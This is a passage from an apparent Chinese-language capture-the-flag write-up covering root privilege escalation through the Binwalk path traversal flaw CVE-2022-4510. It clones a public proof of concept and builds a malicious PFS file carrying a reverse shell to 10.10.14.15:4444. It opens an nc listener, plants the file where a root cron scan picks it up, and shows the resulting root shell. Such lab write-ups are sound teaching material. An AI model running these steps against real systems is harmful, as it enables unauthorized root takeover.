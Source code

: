 腳本使用 **Binwalk** 掃描上傳的檔案！

檢查 Binwalk 版本：

```bash
binwalk --help | head -1
# Binwalk v2.3.2
```

### CVE-2022-4510 - Binwalk Path Traversal RCE

Binwalk 2.3.2 存在路徑遍歷漏洞，允許在提取檔案時寫入任意位置。

**漏洞原理：**
- Binwalk 在提取 PFS 文件系統時未正確驗證路徑
- 可以使用 `../` 序列跳出提取目錄
- 配合 cron 或監控腳本觸發代碼執行

### Exploitation

使用公開 POC：

```bash
git clone https://github.com/adhikara13/CVE-2022-4510-WalkingPath
cd CVE-2022-4510-WalkingPath
```

生成惡意檔案：

```bash
python3 exploit.py exploit.bin 10.10.14.15 4444
```

這會創建一個惡意的 PFS 檔案，包含反向 shell。

### 觸發漏洞

1. 開啟監聽：

```bash
nc -lvnp 4444
```

2. 上傳惡意檔案到被監控的目錄：

```bash
# 找到監控目錄
find /var -type d -writable 2>/dev/null

# 通常是用戶上傳目錄
cp exploit.bin /var/www/pilgrimage.htb/shrunk/
```

3. 等待 cron 執行 malwarescan.sh

幾秒鐘後獲得 root shell！

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
```
